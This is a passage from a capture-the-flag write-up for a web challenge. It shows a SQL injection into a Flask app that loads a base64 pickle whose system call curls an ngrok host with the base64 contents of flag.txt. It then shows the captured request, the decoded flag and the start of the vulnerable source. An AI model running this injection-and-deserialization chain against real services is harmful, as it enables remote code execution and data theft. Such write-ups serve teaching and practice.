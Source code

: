 {: .question }
>What is the SQL query that the server creates to manage this requests?
>
>Assumptions: 
>- `select "/some/path/"||id from elves where id = <param>`
>- `select data from elves where id = <param>`

{: .success }
>Random junk appended:
>![]({{page.screenshots}}ElfResources7.png)
>Legit object appended:
>![]({{page.screenshots}}ElfResources8.png)

#### Exfiltrated the flag

Exploited the SQL Injection to send a request containing the serialized object (the full payload has been urlencoded in order to avoid issues related to special character inside the request):

![]({{page.screenshots}}ElfResources9.png)

```http
GET /0%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%67%41%53%56%57%77%41%41%41%41%41%41%41%41%43%4d%42%58%42%76%63%32%6c%34%6c%49%77%47%63%33%6c%7a%64%47%56%74%6c%4a%4f%55%6a%45%42%6a%64%58%4a%73%49%47%68%30%64%48%42%7a%4f%69%38%76%4d%6a%49%35%59%69%30%35%4d%79%30%31%4d%53%30%31%4e%43%30%78%4f%44%63%75%5a%58%55%75%62%6d%64%79%62%32%73%75%61%57%38%76%59%47%4e%68%64%43%42%6d%62%47%46%6e%4c%6e%52%34%64%48%78%69%59%58%4e%6c%4e%6a%52%67%6c%49%57%55%55%70%51%75%27 HTTP/1.1
Host: challs.htsp.ro:13001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
```

> url-decode request: 
> `0 union select 'gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu'`

```bash
$ ngrok http 10099
...
GET /WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 502 Bad Gateway
...
$ echo WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 | base64 -d                                                            
X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}
```

### Flag

{: .flag }
> `X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}`

### Extra miles
#### Vulnerable source code
```python
import base64
import dataclasses
import os
import pickle
import sqlite3
from typing import Optional

from flask import Flask, render_template


@dataclasses.dataclass
class Elf:
```